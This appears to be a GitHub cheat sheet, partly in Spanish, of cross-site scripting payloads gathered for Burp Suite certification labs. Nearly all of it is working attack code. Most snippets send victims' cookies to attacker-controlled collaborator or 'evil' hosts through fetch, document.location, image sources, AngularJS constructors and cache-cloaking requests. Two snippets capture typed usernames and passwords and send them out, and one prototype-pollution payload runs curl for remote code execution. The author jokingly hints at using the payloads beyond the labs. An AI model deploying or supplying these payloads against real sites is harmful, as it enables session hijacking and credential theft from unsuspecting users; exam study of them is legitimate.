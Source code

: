 # CookieStealer XSS Payloads

Con fines correctos JAJAJAJAJA, bueno pa' el BSCP y lo que se atraviese si me cogen de malas pulgas si sabe.

> Inject XSS Stored Cookie Session

```js
//Todo codeado a url excepto el ' que está dentro de parentesis (sin parentesis claro) tiramos un scan selected insertion point y nos retorno el xss stored de la cookie, que fue la que seleccionamos y le hicimos el scan. 
(')"><svg/onload=fetch(`//BURP-COLLABORATOR\.oastify.com?c=${document.cookie}`)>

'%22%3E%3Csvg%2Fonload%3Dfetch%28%60%2F%2Frhc2glih6cztxui4wzfa76i1ws2jqnec%5C.oastify.com%3Fc%3D%24%7Bdocument.cookie%7D%60%29%3E
```

> Steal cookies collaborator:

```html
<script>
fetch(`https://burpcollaborator.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

> Steal Cookies Exploit Server:

```html
<script>
fetch(`https://collaborator.net/x`+document.cookie);
</script>
```

> XSS Cookie Stealer payloads using JavaScript

```js
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```

> Reflected XSS into HTML context with nothing encoded in search.

```js
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```

> Reflected DOM XSS, into JSON data that is processed by **eval().**

```js
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```

> JavaScript Template literals are enclosed by backtick (` esta comilla`` ) characters instead of double or single quotes.

```js
${document.location='https://BURP-COLLAB.com/?cookies='+document.cookie;}
```

[![JavaScript template string](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/javascript-template-string.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/javascript-template-string.png)

> AngularJS DOM XSS Attack **constructor** payloads

```js
{{$on.constructor('alert(1)')()}}

{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```

```
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```

> HTTP request smuggling to deliver reflected XSS

```js
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```

> Web Cache Parameter cloaking - script `/js/geolocate.js`, executing the callback function `setCountryCookie()`

```js
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```

> More Cross-Site Scripting (XSS) example cookie stealer payloads.

```js
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

<hr>

> HTML Tag, with invalid Image source, with escape sequence from source code calling `window.location` for the **LastViewedProduct``` cookie.

```js
//EN LA SECCION DE COMENTAR ->  XSS STORED DOM
<img src=x onerror=this.src'https://COLLAB.com/?'+document.cookie;>

&'><img src=1 onerror=print()>

&'><img src=x onerror=this.src="https://EXPLOIT-SERVER/?ex="+document.cookie>

<img src=x onerror=this.src=https://exploit.net/?'+document.cookie;>
```

>_**Document.location**_ returns a Location object, which contains information about the URL of the document and provides methods for changing that URL and loading another URL.

```js
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;

document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

> Document.write

```js
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```

```js
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```js 
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```js 
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

> OSCP Offsec PWK hand book cookie stealer example

```js 
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

> Alt Cookie Stealer

```js
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>

<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>

<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

> :::: Steal Password / Cookie Stealer ::::

> XMLHttpRequest

```js
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

> FETCH API

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

> :::: DATA EXFILTRATION / COOKIE STEALER ::::

```js
</textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 

<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>

<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>

<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>


```

> IFRAMEs

```js
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```

> Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```

> Prompt Validation payload, does not steal cookie or send it to exploit server.

```html
<img src=x onerror=prompt(1)>
```

> Remote code execution via server-side prototype pollution

```
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

Eso sería todo -.- 
